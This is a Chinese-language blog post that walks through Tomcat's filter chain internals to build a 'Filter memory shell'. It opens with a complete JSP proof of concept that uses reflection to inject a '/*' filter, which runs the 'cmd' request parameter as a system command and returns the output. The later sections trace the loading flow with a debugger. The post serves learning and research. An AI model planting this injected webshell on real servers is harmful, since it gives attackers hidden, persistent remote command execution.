hhh，Listener内存马分析完后，自己尝试构造了Filter poc，最后没借助分析文章构造出来挺兴奋的hh
环境
<dependency>
<groupId>org.apache.tomcat</groupId>
<artifactId>tomcat-catalina</artifactId>
<version>9.0.96</version>
</dependency>
先贴poc吧，想看着写流程
0x01 poc
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="javax.security.auth.message.callback.SecretKeyCallback" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="org.apache.catalina.core.ApplicationContextFacade" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.*" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="javax.servlet.annotation.WebFilter" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.Context" %>
<%
//反射得到StandardContext
ApplicationContextFacade servletContext = (ApplicationContextFacade) request.getServletContext();
Field con = servletContext.getClass().getDeclaredField("context");
con.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) con.get(servletContext);
Field context = applicationContext.getClass().getDeclaredField("context");
context.setAccessible(true);
StandardContext Standardcontext1 = (StandardContext) context.get(applicationContext);
@WebFilter(filterName = "MyFilter", urlPatterns = "/*")
class myFilter implements Filter{
@Override
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
try {
String cmd = request.getParameter("cmd");
Process exec = Runtime.getRuntime().exec(cmd);
InputStream inputStream = exec.getInputStream();
BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));
// 设置响应头，确保客户端能正确接收文本数据
response.setContentType("text/plain");
response.setCharacterEncoding("UTF-8");
// 获取输出流，用于向客户端发送数据
PrintWriter writer = response.getWriter();
String line;
while ((line = reader.readLine())!= null) {
writer.write(line + "\n");
}
// 关闭相关资源
reader.close();
inputStream.close();
writer.close();
chain.doFilter(request, response);
} catch (Exception e) {
throw new RuntimeException(e);
}
}
};
FilterDef filterDef = new FilterDef();
myFilter myFilter = new myFilter();
filterDef.setFilter(myFilter);
filterDef.setFilterName("myFilter");
FilterMap filterMap = new FilterMap();
filterMap.setFilterName("myFilter");
filterMap.addURLPattern("/*");
Standardcontext1.addFilterDef(filterDef);
Standardcontext1.addFilterMap(filterMap);
Field filterConfigs = Standardcontext1.getClass().getDeclaredField("filterConfigs");
filterConfigs.setAccessible(true);
Map map = (Map) filterConfigs.get(Standardcontext1);
Class<?> aClass = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Context.class, FilterDef.class);
declaredConstructor.setAccessible(true);
ApplicationFilterConfig myconfig = (ApplicationFilterConfig) declaredConstructor.newInstance(Standardcontext1, filterDef);
map.put("myFilter", myconfig);
out.println(1111111);
%>
0x02 分析流程
先通过这个demo，调试分析，看什么地方调试我们的doFilter
package com.example.learnservlet;
import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import java.io.IOException;
@WebFilter(filterName = "TestFilter", urlPatterns = "/test/*")
public class TestFilter implements Filter {
@Override
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
System.out.println("filter");
chain.doFilter(request, response);
}
}

和listener一样的思路的话，这里我们就是要添加恶意filter到filters里

然后我们找到addFilter，通过栈，我们发现每次请求ApplicationFilterFactory都会调用ApplicationFilterChain.addFilter()方法

这里我们往上查看

filterMaps实际来自StandardContext，查看findFilterMaps方法，发现filterMaps


然后我们看到addFilterMap方法，这里就想到我们获得StandardContext实例后调用这个方法插入filter，不久行了嘛

但这里我们查看filterMaps并没有我们的Filter类属性，我们该怎么传入我们的Filter实例呢

然后看调用栈往上看到在调用addFilterMap方法前会先调用addFilterDef方法


这里去FilterDef去查找一番，发现有设置Filter，那么这个地方多半是传入Filter的地方了

但是最后调用的filterMaps和FilterDef有什么关系呢，其实filter更像存储Filter基本信息（Filter名字，url）等，而FilterDef则储存Filter名字对应的Filter实例
filterDefs.put(filterDef.getFilterName(), filterDef);
这里put，第一个参数就是Filter名字。
然后通过其他demoFilter的我们大概也知道filterMaps要设置什么值（Filter名字，url）
然后尝试构造poc，最后写入filter代码长这样
FilterDef filterDef = new FilterDef();
myFilter myFilter = new myFilter();
filterDef.setFilter(myFilter);
filterDef.setFilterName("myFilter");
FilterMap filterMap = new FilterMap();
filterMap.setFilterName("myFilter");
filterMap.addURLPattern("/*");
Standardcontext1.addFilterDef(filterDef);
Standardcontext1.addFilterMap(filterMap);
运行后，执行发现没反应，调试发现漏了一处地方

这里我的filterMaps已经有我自己的filterMap了，但是执行我的filterMap时进入了最后这个continue
发现filterConfig没有值，起初没细看这里，以为这里是用来封装的，到filterMap构造就能成功执行。
倒回来我们跟进findFilterConfig方法，然后再查看filterConfigs哪些地方调用过

查看完，发现也只有**filterStart()**方法这里进行过赋值

看到这，思路也清晰了，就是反射获取filterConfigs再put一个ApplicationFilterConfig，查看自构方法参数，然后不是public，这个构造方法也要通过反射然后实例化

Filter传参带有response，不用考虑获取，servletContext和Listener一样的获取方式，然后就可以完整poc啦
Filter 的加载流程如下
- 通过 ApplicationFilterFactory.createFilterChain() 创建 FilterChain
- 调用 StandardContext.findFilterMaps() 得到 filterMaps
- 遍历 filterMaps, 依次从 StandardContext 中用 filterMap.getFilterName() 获取对应的 filterConfig, 并将其放入 FilterChain
- 执行 FilterChain.doFilter() 并在内部调用 internalDoFilter 方法
- 依次执行 filterConfig.getFilter() 获取 Filter 实例, 并最终调用其 doFilter 方法
感觉自己第一次写，有些潦草，也不想大改了（懒）
0x03 补充
这里补充下流程，直接借用其他大佬的图了
调用栈

直接跳转到 StandardWrapperValve
执行了 filterChain.doFilter 方法, 继续跟进

然后我们回到 StandardWrapperValve, 往前面翻翻看这个 filterChain 是怎么来的

这里通过 ApplicationFilterFactory.createFilterChain() 创建 filterChain
需要注意创建过程是动态的, 即我们每发起一次请求, tomcat 都会执行一遍 createFilterChain, 这也为后面内存马的植入做了铺垫
跟进 createFilterChain 方法

首先从 Request 对象中获取 filterChain, 如果 filterChain 不存在, 就自己新建一个, 再设置到 req 内

然后从 wrapper 中获取 StandardContext 对象, 并且调用 findFilterMaps 方法得到 filterMaps
